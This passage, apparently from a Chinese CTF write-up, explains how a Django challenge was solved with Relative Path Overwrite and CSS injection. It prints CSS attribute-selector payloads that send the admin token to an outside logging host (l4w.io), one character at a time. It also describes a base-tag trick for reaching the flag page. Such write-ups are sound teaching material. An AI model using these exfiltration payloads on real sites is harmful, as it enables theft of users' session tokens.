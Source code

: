 但题目中永远不会出现无意义的信息，比如urlstorage页面，在刚才的讨论中，urlstorage页面中修改储存url的功能可以说毫无意义，这时候就要提到刚才说的RPO了。

首先整个站点是django写的，所有页面都是通过路由表实现的，所以无论我们在后面加入什么样的链接，返回页面都是和urlstorage一样的
```
http://35.198.114.228/urlstorage/random_str/1321321421
-->
http://35.198.114.228/urlstorage
```

看上去好像没什么问题，但是页面内的静态资源是通过相对路径引入的。

![image.png-102.4kB][2]

因为我们修改了根url，所以css的引入url变成了
![image.png-158.8kB][3]

我们把当前页面当做成css样式表引入到了页面内。

这里我们可以通过设置url来向页面中加入一些可以控制的页面内容。

这里涉及到一个小技巧：
**CSS在加载的时候与JS一样是逐行解析的，不同的是CSS会忽略页面中不符合CSS语法的行**

也就是说如果我们设置url为`%0a{}%0a*{color:red}`

那么页面内容会变成
![image.png-37.6kB][4]

当引入CSS逐行解析的时候，`color:red`就会被解析

![image.png-65.4kB][5]

通过设置可控的css，我们就可以使用一个非常特别的攻击思路。

我曾经在讲述CSP的博客中提到了这种攻击思路，通过CSS选择器来读取页面内容
[https://lorexxar.cn/2017/10/25/csp-paper/#1、nonce-script-CSP-Bypass](https://lorexxar.cn/2017/10/25/csp-paper/#1、nonce-script-CSP-Bypass)

```
a[href^=flag\?token\=0]{background: url(//l4w.io/rpo/logging.php?c=0);}
a[href^=flag\?token\=1]{background: url(//l4w.io/rpo/logging.php?c=1);}
..
a[href^=flag\?token\=f]{background: url(//l4w.io/rpo/logging.php?c=f);}
```

当匹配a标签的href属性中token开头符合的时候，就会自动向远程发送请求加载图片，服务端接收到请求，就代表着匹配成功了，这样的请求我们可以重复多次，就能获取到admin的token了。

这里有个小细节，服务端每次访问都会重新登陆一次，每次重新登陆都会刷新token，所以题目在contact页面还给出了一个脚本pow.py，通过这个脚本，服务端会有30s时间来访问我们的所有url，这样我们就有足够的时间拿到服务端的token。

但是问题来了，我们仍然没办法获取到flag页面的flag。

这里需要一个新的技巧。

在浏览器处理相对路径时，一般情况是获取当前url的最后一个`/`前作为base url，但是如果页面中给出了base标签，那么就会读取base标签中的url作为base url。

那么，既然flag页面的token参数，我们有24位可控，那么我们完全可以引入`/urlstorage`作为base标签，这样CSS仍然会加载urlstorage页面内容，我们就可以继续使用CSS RPO来获取页面内容。


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/r67ihy6epkvcnkqvnqulsvjl/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/sgxf9gq2ni5i7osmlm17vzry/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/23ujazb8yck2rnzy9b6ow02s/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/nptyaixmrkwgizd1bce9yhe3/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/2tmhyv1f575lfz6apaeg0o4q/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9tys2vihqrm3xznatpwkjzkm/image.png